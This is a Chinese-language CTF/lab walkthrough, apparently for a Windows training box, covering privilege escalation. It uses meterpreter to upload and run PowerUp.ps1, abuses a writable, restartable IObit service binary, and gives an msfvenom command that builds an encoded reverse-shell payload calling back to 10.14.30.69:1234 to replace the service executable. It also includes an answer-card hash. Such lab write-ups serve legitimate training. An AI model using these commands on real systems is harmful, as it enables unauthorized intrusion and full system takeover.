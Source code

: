 ![image-20221013200243609](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013200243609.png)

> b04763b6fcf51fcd7c13abc7db4fd365

**答题卡**

![image-20221013200343692](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013200343692.png)

## 权限提升

现在我们在这台机器上有了一个初始 shell，我们可以进一步枚举操作系统信息并查看将权限升级到root的利用点，使用名为“ PowerUp”的 PowerShell 脚本来评估这台 Windows 机器并确定目标机是否存在任何异常和错误配置。

下载脚本到你的本地终端(注意不要使用命令行的形式下载这个脚本，而是复制脚本内容并新建一个ps1文件):

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

一旦脚本保存在本地，就可以通过 meterpreter shell 上传该脚本:

```shell
exit       #退出刚才进入的Windows shell界面，回到meterpreter shell界面
upload /home/hekeats/TOOLS/PowerUp.ps1
```

![image-20221013200922267](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013200922267.png)

然后我们可以通过meterpreter会话来加载PowerShell扩展，并进入 PowerShell的shell界面并执行脚本:

```powershell
load powershell
powershell_shell
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

![image-20221013205824347](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013205824347.png)

查看输出，有一个特定服务的 CanRestart 选项被设置为 true，此选项被设置为 true 后，我们就能够在系统上重新启动此服务；而且这个应用程序的目录也是可写的，这意味着我们可以用一个恶意应用程序替换合法的应用程序，一旦服务重新启动，我们的恶意程序将运行。

> ServiceName ：AdvancedSystemCareService9
>
> ModifiablePath：C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe

msfvenom可用于生成反向shell的payload并将其输出为windows可执行文件，我们用msfvenom来生成一个和之前的应用程序同名的恶意应用程序:

```shell
#msfvenom -p windows/shell_reverse_tcp LHOST=<local_ip> LPORT=<local_port> -e x86/shikata_ga_nai -f exe-service -o filename.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.14.30.69 LPORT=1234 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

然后可以通过 meterpreter shell (首先通过 CTRL + C 退出 PowerShell 会话)将其上传到目标机器:

```shell
upload ASCService.exe
```
